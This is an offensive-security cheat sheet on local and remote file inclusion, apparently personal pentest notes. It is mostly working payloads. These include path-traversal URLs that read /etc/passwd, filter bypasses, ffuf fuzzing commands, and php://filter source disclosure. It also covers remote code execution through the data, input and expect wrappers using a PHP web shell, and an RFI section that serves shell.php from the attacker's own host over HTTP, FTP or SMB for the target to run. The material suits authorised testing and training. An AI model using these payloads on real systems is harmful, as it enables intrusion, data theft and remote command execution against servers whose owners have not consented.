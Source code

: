# 📄 File Inclusion

## LFI

The following table shows which functions may execute files and which only read file content:

<table data-header-hidden><thead><tr><th width="340"></th><th width="148"></th><th width="124"></th><th></th></tr></thead><tbody><tr><td><strong>Function</strong></td><td><strong>Read Content</strong></td><td><strong>Execute</strong></td><td><strong>Remote URL</strong></td></tr><tr><td><strong>PHP</strong></td><td></td><td></td><td></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td>✅</td><td>✅</td><td>✅</td></tr><tr><td><code>require()</code>/<code>require_once()</code></td><td>✅</td><td>✅</td><td>❌</td></tr><tr><td><code>file_get_contents()</code></td><td>✅</td><td>❌</td><td>✅</td></tr><tr><td><code>fopen()</code>/<code>file()</code></td><td>✅</td><td>❌</td><td>❌</td></tr><tr><td><strong>NodeJS</strong></td><td></td><td></td><td></td></tr><tr><td><code>fs.readFile()</code></td><td>✅</td><td>❌</td><td>❌</td></tr><tr><td><code>fs.sendFile()</code></td><td>✅</td><td>❌</td><td>❌</td></tr><tr><td><code>res.render()</code></td><td>✅</td><td>✅</td><td>❌</td></tr><tr><td><strong>Java</strong></td><td></td><td></td><td></td></tr><tr><td><code>include</code></td><td>✅</td><td>❌</td><td>❌</td></tr><tr><td><code>import</code></td><td>✅</td><td>✅</td><td>✅</td></tr><tr><td><strong>.NET</strong></td><td></td><td></td><td></td></tr><tr><td><code>@Html.Partial()</code></td><td>✅</td><td>❌</td><td>❌</td></tr><tr><td><code>@Html.RemotePartial()</code></td><td>✅</td><td>❌</td><td>✅</td></tr><tr><td><code>Response.WriteFile()</code></td><td>✅</td><td>❌</td><td>❌</td></tr><tr><td><code>include</code></td><td>✅</td><td>✅</td><td>✅</td></tr></tbody></table>

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd 
# Basic LFI
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd 
# Path Traversal
http://<SERVER_IP>:<PORT>/index.php?language=/../../../etc/passwd 
# Bypass Filename Prefix
http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
# Bypass Non-Recursive Path Traversal Filters
<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
# URL encoded
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
# Approved path
/etc/passwd%00.php


ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
# ffuf lfi files
ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
# ffuf server webroot
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
# ffuf server logs/config


```

Although the ffuf scan result might return 302 or no contents it's worth checking the source code using LFI.

**Source Code Disclosure**

<pre class="language-url"><code class="lang-url">php://filter/read=convert.base64-encode/resource=config
<strong>http://&#x3C;SERVER_IP>:&#x3C;PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
</strong></code></pre>

### PHP Wrappers

We can use many methods to execute remote commands

#### Data

The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations.

**Checking PHP Configurations at** `/etc/php/X.Y/apache2/php.ini`

```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

we can decode it and `grep` for `allow_url_include` to see its value

```shell-session
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

**Remote Code Execution**

first step would be to base64 encode a basic PHP web shell

```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64
```

then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:

```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

```shell-session
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

#### Input

[input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code.&#x20;

We pass our input to the `input` wrapper as a **POST** request's data.

Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

#### Expect

[expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper allows us to directly run commands through URL streams.

Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

```shell-session
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

## RFI

if the vulnerable function allows the inclusion of remote URLs. This allows two main benefits:

1. Enumerating local-only ports and web applications (i.e. SSRF)
2. Gaining remote code execution by including a malicious script that we host

<table data-header-hidden><thead><tr><th width="349"></th><th width="140"></th><th width="125"></th><th></th></tr></thead><tbody><tr><td><strong>Function</strong></td><td><strong>Read Content</strong></td><td><strong>Execute</strong></td><td><strong>Remote URL</strong></td></tr><tr><td><strong>PHP</strong></td><td></td><td></td><td></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td>✅</td><td>✅</td><td>✅</td></tr><tr><td><code>file_get_contents()</code></td><td>✅</td><td>❌</td><td>✅</td></tr><tr><td><strong>Java</strong></td><td></td><td></td><td></td></tr><tr><td><code>import</code></td><td>✅</td><td>✅</td><td>✅</td></tr><tr><td><strong>.NET</strong></td><td></td><td></td><td></td></tr><tr><td><code>@Html.RemotePartial()</code></td><td>✅</td><td>❌</td><td>✅</td></tr><tr><td><code>include</code></td><td>✅</td><td>✅</td><td>✅</td></tr></tbody></table>

### Verify RFI

any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled. even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with

more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to `try and include a URL`, and see if we can get its content.

http://\<SERVER\_IP>:/index.php?language=http://127.0.0.1:80/index.php

#### Remote Code Execution

```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**http**

```shell-session
sudo python3 -m http.server <LISTENING_PORT>
```

http://\<SERVER\_IP>:/index.php?language=http://\<OUR\_IP>:\<LISTENING\_PORT>/shell.php\&cmd=id

**FTP**

```shell-session
sudo python -m pyftpdlib -p 21
```

http://\<SERVER\_IP>:/index.php?language=ftp://\<OUR\_IP>/shell.php\&cmd=id

or

```shell-session
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

**SMB (Windows)**

```shell-session
impacket-smbserver -smb2support share $(pwd)
```

http://\<SERVER\_IP>:/index.php?language=\\\<OUR\_IP>\share\shell.php\&cmd=whoami



